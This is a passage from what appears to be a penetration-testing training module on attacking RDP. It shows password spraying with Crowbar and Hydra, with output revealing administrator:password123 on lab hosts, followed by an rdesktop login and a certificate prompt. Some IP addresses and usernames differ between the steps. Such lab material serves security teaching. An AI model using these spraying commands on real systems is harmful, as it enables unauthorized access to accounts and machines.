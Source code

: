#### Crowbar - RDP Password Spraying

Attacking RDP

```shell-session
frank-106@htb[/htb]# crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'

2022-04-07 15:35:50 START
2022-04-07 15:35:50 Crowbar v0.4.1
2022-04-07 15:35:50 Trying 192.168.220.142:3389
2022-04-07 15:35:52 RDP-SUCCESS : 192.168.220.142:3389 - administrator:password123
2022-04-07 15:35:52 STOP
```

We can also use `Hydra` to perform an RDP password spray attack.

#### Hydra - RDP Password Spraying

Attacking RDP

```shell-session
frank-106@htb[/htb]# hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-08-25 21:44:52
[WARNING] rdp servers often don't like many connections, use -t 1 or -t 4 to reduce the number of parallel connections and -W 1 or -W 3 to wait between connection to allow the server to recover
[INFO] Reduced number of tasks to 4 (rdp does not like many parallel connections)
[WARNING] the rdp module is experimental. Please test, report - and if possible, fix.
[DATA] max 4 tasks per 1 server, overall 4 tasks, 8 login tries (l:2/p:4), ~2 tries per task
[DATA] attacking rdp://192.168.2.147:3389/
[3389][rdp] host: 192.168.2.143   login: administrator   password: password123
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-08-25 21:44:56
```

We can RDP into the target system using the `rdesktop` client or `xfreerdp` client with valid credentials.

#### RDP Login

Attacking RDP

```shell-session
frank-106@htb[/htb]# rdesktop -u admin -p password123 192.168.2.143

Autoselecting keyboard map 'en-us' from locale

ATTENTION! The server uses an invalid security certificate which can not be trusted for
the following identified reasons(s);

 1. Certificate issuer is not trusted by this system.
     Issuer: CN=WIN-Q8F2KTAI43A

Review the following certificate info before you trust it to be added as an exception.
If you do not trust the certificate, the connection atempt will be aborted:

    Subject: CN=WIN-Q8F2KTAI43A
     Issuer: CN=WIN-Q8F2KTAI43A
 Valid From: Tue Aug 24 04:20:17 2021
         To: Wed Feb 23 03:20:17 2022

  Certificate fingerprints:

       sha1: cd43d32dc8e6b4d2804a59383e6ee06fefa6b12a
```